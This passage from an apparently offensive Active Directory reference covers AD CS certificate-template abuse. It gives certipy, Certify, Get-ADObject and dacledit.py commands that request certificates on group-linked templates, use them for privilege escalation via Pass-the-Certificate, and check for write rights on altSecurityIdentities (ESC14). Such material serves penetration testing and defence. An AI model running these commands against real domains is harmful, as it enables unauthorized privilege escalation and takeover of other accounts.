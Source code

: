    certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'Vulnerable template'
    ```
    The certificate can then be used with Pass-the-Certificate to obtain a TGT and authenticate as the controlled principal, but with its privileges added to those of the linked group.
=== "Windows"
    From Windows systems, the ActiveDirectory PowerShell module can be used to identify a certificate template with an issuance policy, i.e. with the `msPKI-Certificate-Policy` property not empty
    ```bash
    Get-ADObject "CN="Vulnerable template",$TemplateContainer" -Properties msPKI-Certificate-Policy
    ```
    Then, if there is no particular issuance requirement, the principal can enroll, and the template indicates the Client Authentication EKU, verify if this issuance policy has an OID group link to a group in the property `msDS-OIDToGroupLink`
    ```bash
    Get-ADObject "CN=$POLICY_ID,$OIDContainer" -Properties DisplayName,msPKI-Cert-Template-OID,msDS-OIDToGroupLink
    ```
    Now, request a certificate for this template with Certify (C#) as usual
    ```bash
    .\Certify.exe request /ca:domain\ca /template:"Vulnerable template"
    ```
    The certificate can then be used with Pass-the-Certificate to obtain a TGT and authenticate as the controlled principal, but with its privileges added to those of the linked group.
### ESC14: Weak explicit mapping
There are four possible attack scenarios for exploiting ESC14. In all cases, the following prerequisites must be met:
!!! note
    - the attacker has compromised a victim account and is able to request certificates with this account, and wants to compromise a target account
    - the certificate template allows the victim to enroll
    - the victim matches all the prerequisites for issuing the certificate
    - the certificate template allows for authentication
    - if the template has the value `CT_FLAG_SUBJECT_ALT_REQUIRE_UPN` or `CT_FLAG_SUBJECT_ALT_REQUIRE_SPN` in the `msPKI-Certificate-Name-Flag` attribute, then:
        - The `UseSubjectAltName` registry key on the DC must be set to 0
        - authentication can only be performed via PKINIT (Kerberos)
    - if the template indicates `CT_FLAG_SUBJECT_ALT_REQUIRE_DNS` or `CT_FLAG_SUBJECT_ALT_REQUIRE_DOMAIN_DNS` in the `msPKI-Certificate-Name-Flag` attribute:
        - the victim must be a machine
        - authentication can only be performed via PKINIT (Kerberos)
    - if the template indicates `CT_FLAG_SUBJECT_ALT_REQUIRE_EMAIL` or `CT_FLAG_SUBJECT_REQUIRE_EMAIL` in the `msPKI-Certificate-Name-Flag` attribute, one of the following prerequisites must be validated:
        - the certificate template uses version 1 of the scheme
        - the victim has his mail attribute configured
        - the attacker has write access to the victim's mail attribute

Sufficient DACL to write altSecurityIdentities attributes can be detected like this:
=== "UNIX-like"
    From UNIX-like systems, this can be done with Impacket's dacledit.py (Python).
    ```bash
    dacledit.py -action 'read' -principal 'controlled_object' -target 'target_object' 'domain'/'user':'password'
    ```
=== "Windows"
    From Windows systems, this can be done with [Get-WriteAltSecIDACEs.ps1](https://github.com/JonasBK/Powershell/blob/master/Get-WriteAltSecIDACEs.ps1) (PowerShell).
    ```bash
    # Get the ACEs for a single object based on DistinguishedName
    Get-WriteAltSecIDACEs -DistinguishedName "dc=domain,dc=local"